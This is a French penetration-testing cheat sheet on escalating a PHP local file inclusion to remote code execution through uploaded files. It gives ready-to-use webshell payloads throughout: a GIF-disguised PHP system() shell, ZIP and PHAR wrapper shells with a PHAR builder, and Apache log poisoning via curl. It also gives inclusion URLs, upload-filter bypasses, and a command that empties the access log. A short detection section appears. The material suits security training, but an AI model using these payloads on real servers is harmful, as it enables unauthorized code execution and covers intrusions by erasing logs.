

## Exploitation LFI avec File Upload pour RCE



L'exploitation d'une **LFI** (Local File Inclusion) via le téléversement de fichiers permet d'obtenir une **RCE** (Remote Code Execution) en manipulant la manière dont le serveur interprète les fichiers inclus. Cette technique est étroitement liée aux concepts de **File Inclusion**, **File Upload Attacks**, **PHP Wrappers** et **Webshells**.

## Conditions requises

| Élément | État requis |
| :--- | :--- |
| Inclusion | Fonction `include()` capable d'exécuter du PHP |
| Upload | Autorisation de téléverser des fichiers (image, zip, etc.) |
| Chemin | Localisation du fichier téléversé connue ou devinable |

> [!info] Configuration PHP
> La configuration **allow_url_include** doit être activée sur le serveur pour que les wrappers comme **zip://** ou **phar://** fonctionnent.

## GIF Web Shell

Cette méthode repose sur l'inclusion d'un fichier image contenant du code PHP, souvent ignoré par les filtres de validation de contenu.

### Création du fichier
```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

### Inclusion
```http
http://victime/index.php?page=./profile_images/shell.gif&cmd=id
```

> [!warning] Logs serveurs
> Attention aux logs serveurs lors de l'injection de **webshells**, car les requêtes contenant du code PHP peuvent être détectées par des solutions de monitoring.

## ZIP + PHP Wrapper

Le wrapper **zip://** permet d'accéder à des fichiers compressés au sein d'une archive.

### Création de l'archive
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
zip shell.jpg shell.php
```

### Inclusion
```http
http://victime/index.php?page=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

> [!tip]
> Le caractère **%23** correspond au symbole **#**, nécessaire pour cibler le fichier spécifique à l'intérieur de l'archive **ZIP**.

## PHAR + PHP Wrapper

Le wrapper **phar://** permet d'exécuter des archives PHP.

### Génération du fichier
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
?>
```

### Compilation et renommage
```bash
php --define phar.readonly=0 shell.php
mv shell.phar shell.jpg
```

### Inclusion
```http
http://victime/index.php?page=phar://./profile_images/shell.jpg/shell.txt&cmd=id
```

> [!danger] Prérequis
> Le wrapper **phar** nécessite l'extension PHP **phar** activée sur le serveur cible.

## Log Poisoning (Alternative)

Si l'upload est restreint, l'injection de code dans les logs serveurs (Apache/Nginx) permet d'exécuter du code via LFI.

### Injection dans les logs
```bash
curl -s -A "<?php system(\$_GET['cmd']); ?>" http://victime/
```

### Inclusion des logs
```http
http://victime/index.php?page=/var/log/apache2/access.log&cmd=id
```

> [!warning]
> Le chemin des logs peut varier (ex: `/var/log/nginx/access.log`). L'utilisateur `www-data` doit avoir les droits de lecture sur le fichier de log.

## Bypass de filtres WAF/Extension

Pour contourner les restrictions sur les extensions ou le contenu :

- **Double extension** : `shell.php.jpg` ou `shell.php.png`
- **Null Byte (PHP < 5.3.4)** : `shell.php%00.jpg`
- **Case sensitivity** : `shell.PhP`
- **MIME-Type** : Modifier le header `Content-Type: image/jpeg` lors de l'upload.

## Méthodes de détection de LFI

- **Fuzzing de paramètres** : Utilisation de `ffuf` ou `wfuzz` avec des wordlists de chemins système (`/etc/passwd`, `C:\Windows\win.ini`).
- **Analyse de logs** : Recherche de requêtes contenant des séquences `../` ou des wrappers (`zip://`, `php://`).
- **Analyse de code statique** : Recherche de fonctions dangereuses (`include`, `require`, `include_once`) utilisant des entrées utilisateur non assainies.

## Nettoyage post-exploitation

Il est impératif de supprimer les traces après l'exercice :

```bash
# Suppression du webshell
rm ./profile_images/shell.gif
# Nettoyage des logs (si autorisé par le périmètre)
echo > /var/log/apache2/access.log
```

## Remarques importantes

| Situation | Contournement |
| :--- | :--- |
| .php ajouté automatiquement | Ne pas inclure l'extension dans le paramètre |
| Répertoire préfixé dans LFI | Utiliser **../../../** pour s'en échapper |
| ZIP/PHAR non autorisé | Privilégier la méthode **GIF** |
| Exécution échoue | Vérifier la présence du wrapper avec `php -m` |

> [!warning] Bypass d'extension
> Le bypass de l'extension via renommage dépend de la configuration du serveur web, notamment des vérifications de **mime-type**.